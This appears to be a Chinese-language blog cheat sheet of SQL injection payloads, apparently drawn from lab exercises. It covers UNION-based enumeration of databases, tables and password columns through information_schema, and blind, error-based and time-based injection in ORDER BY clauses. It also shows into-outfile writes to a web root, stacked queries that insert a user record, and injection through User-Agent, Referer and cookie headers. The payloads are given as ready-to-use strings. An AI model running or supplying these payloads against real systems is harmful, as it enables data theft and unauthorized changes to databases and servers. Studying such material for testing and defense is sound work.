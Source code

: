 ```yaml
---
published: true
---
```

### 一些常用的注入
### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如:  id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。  
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名  
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名  
5、知道pass段名有user union select 1，2，3，pass from user  

### Order by注入:  
当原始sql语句是order by时不能使用union等进行注入  
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
 	(rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。)  
2、报错注入  
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+  
3、导入导出文件into outfile参数  
	?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”  
4、延时注入  
	？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+  
#(如果为假，就会有延迟)

### 堆叠查询：
即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
	id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![](https://ljjbloghub.github.io/img/sql2.jpg)

报错信息’）要需求多构造）
![](https://ljjbloghub.github.io/img/sql2.jpg)
### cookie注入： 
对cookie的值进行union注入,注意cookie是否经过编码
